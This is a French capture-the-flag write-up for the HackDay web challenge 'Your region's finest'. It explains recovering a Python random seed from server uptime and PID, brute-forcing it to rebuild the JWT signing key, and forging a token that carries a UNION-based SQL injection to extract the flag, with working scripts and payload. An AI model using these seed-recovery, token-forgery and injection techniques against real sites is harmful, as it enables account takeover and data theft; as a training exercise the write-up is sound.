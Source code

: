 # Your region's finest

**Web**

You’ve been informed that a website might be serving as a front for a large criminal network. Part of their revenue supposedly comes from selling cookies that can make you float like an airship… A rather tempting proposition. Their slogan, it seems, is: "Always wondered how to get the coolest and the highest quality products in your region ? Search no more, this new website allows you to do so !"

Fichiers : app.py

---

## Inspection du code source

Sur ce challenge, on a la source (!!) du code du serveur. On peut donc inspecter cette source pour trouver des éléments intéressants dedans.

Voici une liste des éléments notables du code source.

### random.seed()

![[Pasted image 20250126200021.png]]
La source du random du site est basée sur le moment où le serveur a été démarré ainsi que son PID. C'est une assez mauvaise source d'aléatoire. Si l'on découvre le moment ou le serveur a été démarré, on doit pouvoir reverse l'entièreté de l'aléatoire du site.

### Clé de chiffrement des JWT
![[Pasted image 20250126200351.png]]
La clé de chiffrement des JWT est basé sur la source d'aléatoire précédente. Si on arrive a la reverse, on doit pouvoir forger nos propres token.

### ORM
Dans le script, on voit la présence d'un ORM, qui empêche les SQL injection quand il est bien utilisé. Cependant, on voit qu'une requête a été laissée sans protection.
![[Pasted image 20250126200653.png]]

On voit qu'on peut injecter des informations dans la requête SQL à l'aide du champ favorite_product_id. En regardant légèrement plus haut, on voit que ce champ provient du JWT. Il faut donc que l'on fasse notre injection via un JWT qu'on aura forgé nous même.

### Timestamp de lancement du serveur
Enfin, la dernière brique se trouve dans la requête de healthcheck.
![[Pasted image 20250126201009.png]]
Cette requête nous permet de savoir depuis combien de temps le serveur est en ligne, et donc en soustrayant cette valeur au timestamp auquel on fait la requête, on peut avoir le timestamp de lancement du serveur.

### Prix des produits
Enfin, on peut voir que les prix des items sont générés aléatoirement à l'initialisation du serveur. Cela nous permettra de vérifier de notre seed d'aléatoire est cohérente et de nous épargner le fait de tester la clé des JWT.
![[Pasted image 20250126201517.png]]


**Nous avons désormais toutes les briques pour construire notre attaque.**

## L'attaque

Commençons par récupérer le timestamp de lancement du serveur. Pour cela, on écrit le script suivant

```python

import requests  
import time  
import random  
import math  
import string
import base64
  
result = []  
for _ in range(100):  
    timeStart = time.time()  
    url = "http://challenges.hackday.fr:58990/healthz"  
    response = requests.get(url).json()["uptime"]  
    result.append(math.floor(timeStart - response))  
baseTimestamp = min(result) - 30  
# on enlève 30s par sécurité, mieux vaut être trop tôt puisque l'on va  
# tester avec plusieurs PID et qu'ils s'additionnent simplement au  
# timestamp, ils vont donc compenser ce qu'on a enlevé  
```

Ensuite, on peut bruteforcer le PID avec le script suivant :
```python
for pid in range(4194304):  
    random.seed(baseTimestamp + pid)  
    useless = "".join(random.choice(string.printable) for _ in range(32))  
    KEY = "".join(random.choice(string.printable) for _ in range(32))  
    a = random.randrange(10, 100)  
    b = random.randrange(10, 100)  
    c = random.randrange(10, 100)  
    if a == 43 and b == 58 and c == 40:
	    # Ici, les valeurs des prix des 
        print(baseTimestamp, pid)  
        print(KEY)  
        print(str(base64.b64encode(bytes(KEY, "utf-8"))))  
        break
```

On obtiens les valeurs suivantes :
![[Pasted image 20250126211220.png]]

On va maintenant étudier la SQL injection : 
On dispose de la requête suivante.
![[Pasted image 20250126212417.png]]
On ajoute donc une partie finale pour obtenir cette requête.

```sql
SELECT * FROM product WHERE id = 1 AND 1=2 UNION SELECT id, flag as name, null, null, null, null FROM flag
```

On va ensuite pouvoir faire notre propre cookie avec https://jwt.io. On commence par charger la clé en base64.

On importe notre cookie :
![[Pasted image 20250126212031.png]]

On le modifie avec notre SQLi :
![[Pasted image 20250126212149.png]]

Il nous suffit ensuite de remettre notre cookie dans le navigateur, et d'aller sur la page `/favorite_product_info`

![[Pasted image 20250126212749.png]]

**Flag : HACKDAY{Th4t_s_S0m3_g000000000000d_qu4lity!}**

nhy.